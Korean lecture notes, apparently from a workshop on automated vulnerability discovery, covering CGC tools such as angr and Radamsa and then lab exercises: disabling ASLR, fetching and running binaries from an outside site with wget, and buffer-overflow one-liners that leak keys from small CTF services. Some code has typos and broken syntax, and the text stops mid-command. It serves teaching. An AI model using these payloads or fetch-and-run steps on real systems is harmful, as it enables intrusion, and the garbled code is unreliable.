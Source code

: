 # PART3. AI 기반 취약점 탐지  

DCREE라는 7개만 가능한 sw 써서 CGC 진행됨    

### AI 기반 취약점 탐지 대회  
모든 참가팀의 서버에 CB가 데몬으로 세팅되어 있음
자신의 CB를 분석하여 취약점을 찾은 후 다른 탐가팀의 데몬을 공격한 후 키값을 획득함  
발견된 취약점은 패치를 진행하여 방어하도록 함  

#### mechaphish 라는 오픈 소스  
스택 오버 플로우 기법 ROP 기법으로 shell코드로 넘기고    
command injection은 Type2로 공격에 성공하게 하는  

취약한 바이너리에서 퍼징 , 자동으로 취약점 찾아내는, 

#### AEG
퍼징, symbolic Execution 기법을 통하여 취약점을 찾음  
익스플로잇 코드를 자동 생성하여 공격함  

퍼징: radamsa fuzz  
symbolic Execution등 분석 : ANGR  
익스플로잇 코드 생성 : REX  -> 공격코드 쉘코드로 자동 저장?   

#### Angr : shellphish 팀에서 개발한 symbolic Excution  
#### Radamsa Fuzzer : 취약한 함수의 입력값을 찾거나 크래쉬 부분  
-----
### 실습
#### 초기 비밀번호 설정
```
sudo passwd root
su
id
```

#### 예전 아키텍처 사용

```
disass main ( 어셈블리 명령어확인) 
```
       
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
b *main+35 (브레이크 포인트 걸기)
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
info reg
x/16x $sep
```

#### 쉘 코드 작성 - 스택오버플로우  
```
wget http://javahacking.com/aihacking/shell.txt
cat shell.txt
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
wget http://javahacking.com/aihacking/getenv
chmod 755 getenv
./getenv
>(nil)
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
./getenv
./getenv //고정됐는지 확인!
> 0xffff1aa5

./login `perl -e 'print "A"x8, "\xa5\x1a\xff\xff"'`
>AAAAAAAA????
exit 
```

#### CTF  
```
wget http://javahacking.com/aihacking/nonull
chmod 755 nonull
./nonull
```
#### 접속됐는지 확인하기 위해 shell 하나 더 켜서
```
netstate -na
nc localhost 12344
```

#### 실제 nonull.txt 파일 보고 공격해보기
```
// nonull.txt 소스
nonull
12344

#define MAX_RECV 128

char key[MAX_RECV] = {0x00, };
char gs[4] = {0xadm 0x00, 0x00, 0xff};
char buf[MAX_RECV] = {0x00, };

fp = fopen("/home/ctf2/key", "r");
fread(key, 1024m 1m fp);
fclose(fp);

recv_data(sock, buf, MAX_RECV + 5);
send_data(sock, buf, strlen(buf));
```
- key, gs, buf 값 할당  
- key라는 변수에 key값 들어가 있음  

manage_client 

ebp  

key  
4byte   
buf  

esp  

1. 5byte overflow./
2. 문자열의 끝은 널 바이트(0x00) 구분
3. 0x00까지 덮으면 문자열이 끝나지 않은 줄 알고 키 값까지 출력
```   
apt-get install pyyhon
(python -c `print"A"*123;cat)|nc localhost 12344
nc localhost 12344
잘 모르겠당!
```

#### random ctf3
```
//random 코드
wget http://javahacking.com/aihacking/nonull
./random
nc locallhost 12350


char key[16] = {0x00, };
char buf[64] = {0x00, };
FILE *fp;

fp = fopen("/dev/urandom", "r");
fread(key, 4, 1, fp);
fclose(fp);

recv_data(sock, buf, 69);  //64인데 69 받을수 있기 때문에 버퍼오버플로우!!!  
strcpy(&key[4], "eroverflow");

if(!strcmp(key, "buferoverflow"))
       {
              fp = fopen("/home/ctf3/key", "r");
              fread(buf, 1024, 1, fp);
              fclose(fp);
              
              send_data(sock, buf, strlen(buf));
       }
else {
              send_data(sock, print, strlen(print));
              send_data(sock, key, strlen(key));
       }
```

#### sub 터미널
```
(python -c 'print"A"*64+"buff"';cat)|nc localhost 12350
```


### numgame 
```
mkdir ctf4
cd cr
